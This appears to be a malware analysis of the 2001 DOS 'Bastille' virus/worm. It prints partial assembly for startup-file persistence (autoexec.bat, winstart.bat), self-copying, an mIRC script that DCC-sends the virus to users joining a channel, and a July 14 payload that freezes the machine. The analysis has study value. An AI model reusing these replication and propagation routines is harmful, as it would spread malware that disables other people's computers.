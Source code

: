 
## Analysis of the Bastille Virus/Worm (DOS Assembly)

**Author:** PetiK
**Date:** 23/04/2001 and 03/06/2001
**Type:** Virus/Worm (combines techniques of both)
**Platform:** DOS (.model small assembly)

This assembly code represents a malicious program that combines characteristics of a virus and a worm. It's written for the DOS environment and utilizes DOS system calls (interrupts `int 21h`) to perform its actions.

### General Structure

The program is structured as a DOS `.COM` program, meaning it's small (less than 64KB) and runs in a single memory segment.

```assembly
.model small
.code
org 100h

DEBUT: jmp START
```
-   `.model small`: Indicates the memory model (small).
-   `.code`: Declares the code segment.
-   `org 100h`: The program starts at offset 100h (256 decimal), which is standard for `.COM` files.
-   `DEBUT: jmp START`: Jumps to the `START` label for the main execution, bypassing initial routines and data.

### Main Functionalities

The Bastille virus/worm has several key functionalities:

1.  **Modification of Autoexec.bat:**

```assembly
OUVRE_AUTO:
    mov ax,3D01h
    lea dx,FILE        ; FILE db 'C:\Autoexec.bat',00h
    int 21h            ; Opens autoexec.bat in read/write mode
    xchg ax,bx          ; Saves the file handle in bx

    xor cx,cx
    mov dx,cx
    mov ax,4202h
    int 21h            ; Moves to the end of the file (append mode)

    mov cx,AUTOL
    lea dx,DAUTO      ; Content to be added
    mov ah,40h
    int 21h            ; Writes the content to autoexec.bat

    mov ah,3Eh
    int 21h            ; Closes the file

    ; ... (modifies file attributes, potentially to make it read-only)
   ``` 
*   It opens `C:\Autoexec.bat`, moves to the end of the file, and appends command lines.  The purpose is to display a message every time the computer starts.

```assembly
DAUTO:     db '',0dh,0ah
       db '@echo off',0dh,0ah
       db 'cls',0dh,0ah
       db 'echo You''re infected by Bastille Virus (c)2001',0dh,0ah
       db 'echo.',0dh,0ah
       db 'echo Don''t panic ! It''s not dangerous, just fatal !!',0dh,0ah
       db 'pause'
AUTOL      equ $-DAUTO
```
2.  **Creation of Winstart.bat:**
    
    Extrait de code
    
    ```
    START:  mov ah,3Ch
        xor cx,cx
        lea dx,WINSTART   ; WINSTART db 'C:\Windows\winstart.bat',00h
        int 21h            ; Creates C:\Windows\winstart.bat
        xchg ax,bx        ; handle in bx
    
        ; ... (writes the content of DWINSTART to the file)
    
    ```
 -   Creates a `C:\Windows\winstart.bat` file. This batch file is executed during the startup of Windows 9x/Me. `assembly DWINSTART db '@echo off',0dh,0ah db 'if exist C:\Data\Win32.com C:\Data\Win32.com' WINSTARTL equ $-DWINSTART`
-   The content of `winstart.bat` is a conditional command that executes the file `C:\Data\Win32.com` (the virus itself) if it exists. This is a simplified form of persistence, but not very robust.

3.  **Self-Replication (Virus Copying):**
    
    ```assembly
    COPIE_VIRUS:
        mov ah,39h
        lea dx,DIR          ; DIR db 'C:\Data',00h
        int 21h            ; Creates the C:\Data directory
    
        mov ah,3Ch
        xor cx,cx
        lea dx,COPIE       ; COPIE db 'C:\Data\Win32.com',00h
        int 21h            ; Creates C:\Data\Win32.com
        xchg ax,bx        ; handle in bx
    
        mov ah,40h
        mov cx,offset VRAIFIN - offset DEBUT  ; Size of the viral code
        lea dx,DEBUT      ; Start address of the viral code
        int 21h            ; Writes the viral code to the file
    
        mov ah,3Eh
        int 21h            ; Closes the file
    
    ```
    
    -   Creates a directory `C:\Data`.
    -   Creates the file `C:\Data\Win32.com`.
    -   Copies the _entire_ virus code (from `DEBUT` to `VRAIFIN`) into `Win32.com`. This is a simple and direct replication technique. The whole virus is copied, not just a part.
4.  **Propagation via mIRC (Worm Behavior):**
    
    ```assembly
    MIRC:   mov ah,3Ch
        xor cx,cx
        lea dx,MIRCF1      ; MIRCF1 db 'C:\script.ini',00h
        int 21h
        xchg ax,bx         ; handle in bx
        ; ... (writes DMIRC to the file)
    
        mov ah,3Eh
        int 21h
    
        ; ... (copies/renames script.ini to the mIRC directory)
    
    DMIRC      db '[script]',0dh,0ah
           db 'n0=on 1:start:{',0dh,0ah
           db 'n1= .sreq ignore',0dh,0ah
           db 'n2=}',0dh,0ah
           db 'n3=on 1:connect:/rename C:\Data\Win32.com C:\Bastille.com',0dh,0ah
           db 'n4=on 1:join:#:{',0dh,0ah
           db 'n5=if ($nick != $me) { dcc send $nick C:\Bastille.com }',0dh,0ah
           db 'n6=}',0dh,0ah
           db 'n7=on 1:disconnect:/rename C:\Bastille.com C:\Data\Win32.com'
    MIRCL      equ $-DMIRC
    
    ```
    
    -   Creates or modifies a `script.ini` file. mIRC, a popular IRC client at the time, would execute scripts contained in this file.
    -   The added script:
        -   `on 1:start:{ .sreq ignore }`: Temporarily disables file requests (to prevent an infinite loop).
        -   `on 1:connect:/rename C:\Data\Win32.com C:\Bastille.com`: When the mIRC client connects, it renames the virus copy. This is so the copy sent via DCC has a different name.
        -   `on 1:join:#:{ if ($nick != $me) { dcc send $nick C:\Bastille.com } }`: When a user joins a channel, the script sends the `C:\Bastille.com` file (the renamed copy of the virus) via DCC (Direct Client-to-Client) to that user.
        -   `on 1:disconnect:/rename C:\Bastille.com C:\Data\Win32.com`: On disconnect, the file is renamed back to its original name.
    -   Copies/renames `script.ini` to the `C:\mirc` directory, if it exists. If the directory doesn't exist, this part fails, but the rest of the virus continues.
5.  **Payload - Date Triggered:**
    
    ```assembly
    DATE:   mov ah,2Ah
        int 21h            ; Gets the system date (year in cx, month in dh, day in dl)
        cmp dh,7
        jnz FIN           ; If the month is not July, jump to the end
        cmp dl,14
        jnz FIN           ; If the day is not the 14th, jump to the end
    
    FEU:    mov ah,9
        lea dx,MSG
        int 21h            ; Displays the message MSG
        cli               ; Disables interrupts
        jmp $             ; Infinite loop
    
    ```
    
    -   Checks the system date.
    -   If the date is July 14th, the payload is activated.
    -   The payload displays a message, then locks the computer in an infinite loop (`jmp $`) after disabling interrupts (`cli`). This makes the system unusable and requires a reboot. The message in `MSG` tells the user to wait until tomorrow.
      
    ```assembly
    MSG    db 7,7,7,10,13,'YOUR COMPUTER IS FOR THE MOMENT DEAD',0dh,0ah
        db 'WAIT TOMORROW TO RESTART YOUR COMPUTER',0dh,0ah,0dh,0ah
        db '         PetiK (c)2001 $'
    
    ```
    
6.  Termination
    
    ```assembly
    FIN:    mov ah,4Ch
        int 21h            ; Terminates the program (returns to DOS)
    
    ```
    

### Important Points and Techniques Used

-   **DOS System Calls (`int 21h`):** The code heavily uses the `int 21h` interrupt to interact with the DOS operating system. This is the standard method for performing file, directory, display, etc., operations under DOS.
-   **File Manipulation:** The virus opens, creates, writes to, and closes files. It uses the classic DOS functions for this (3Ch to create, 40h to write, 3Eh to close, etc.).
-   **Directory Manipulation:** It creates a directory (`C:\Data`) using `int 21h` function `39h`.
-   **Direct Replication:** The virus copy is a complete replication of the code, which makes the virus larger but simple to implement.
-   **Propagation via IRC:** The use of mIRC for propagation is a classic worm technique.
-   **Persistence:** The modifications to `autoexec.bat` and `winstart.bat` provide some persistence (the virus runs on every startup) but are easily bypassed.
-   **Date-Triggered Payload:** The trigger on July 14th is a nod to the French national holiday (Bastille Day). The payload is destructive (system lockup).
-   **Absence of Stealth:** It makes no serious attempt to hide itself. The code is not encrypted or obfuscated, and the file and directory names are explicit.

### Conclusion

The "Bastille" code is an interesting example of malware combining aspects of a virus and a worm. It demonstrates basic assembly programming techniques for DOS, file and directory manipulation, replication, propagation via third-party applications (mIRC), and payload activation. Although relatively simple compared to modern malware, it clearly illustrates the fundamental principles of malicious code creation. Its lack of stealth and destructive payload make it easily detectable and potentially very annoying for an unsuspecting user.
